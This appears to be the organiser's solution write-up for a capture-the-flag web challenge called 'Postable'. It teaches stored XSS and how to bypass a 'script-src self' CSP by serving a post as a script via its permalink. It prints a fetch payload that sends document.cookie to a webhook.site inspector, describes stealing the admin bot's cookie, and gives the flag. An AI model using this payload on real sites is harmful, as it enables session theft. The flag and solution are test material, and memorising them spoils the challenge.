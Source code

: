 # Postable

## Purpose

Teach students about XSS and CSP.

## Solution

The site allows you to make text posts that get posted below the form on the
page.

NOTE: It is important that the competitor does not ignore any feature of the
site. The post submission form, permalink button, and report button all are
needed to solve the challenge.

A competitor should be able to quickly figure out that there is an stored XSS
vulnerability. Submitting something like `<h1>Hello</h1>` or such will have the
HTML rendered on the page. `<script>alert(1)</script>` will NOT produce a pop up
as it violates the CSP directive.

`Refused to execute inline script because it violates the following Content
Security Policy directive: "script-src 'self'".`

The competitor needs to understand that the `script-src 'self'` CSP directive
means that any JavaScript source must come from a file located on the same
host, but not at a different host and not as inline JavaScript. A "JavaScript
file" can be created on the host by making a post with only JavaScript code.
The JavaScript is just a fetch to a HTTP request inspector with the cookie
appended at the end.

```javascript
fetch("https://webhook.site/XXXXXXXX-XXXX-XXXX-XXXX-XXXXXXXXXXXX/" + document.cookie);
```

We can get the path to this file from the permalink button on the post. Then
running arbitrary JavaScript is as easy as making another post with

```html
<script src="/permalink?post=XXXXXXXXXXXXXXXXXXXXXXXX"></script>
```

and then issuing a report on that post to the admin via the Report button. The
report button will cause an "admin" to come and look at the post, causing their
cookies to be sent to us.

The flag will be appended to the request path the request inspector receives.

## Flag

`CTF{creative-people-solve-crazy-security-problems}`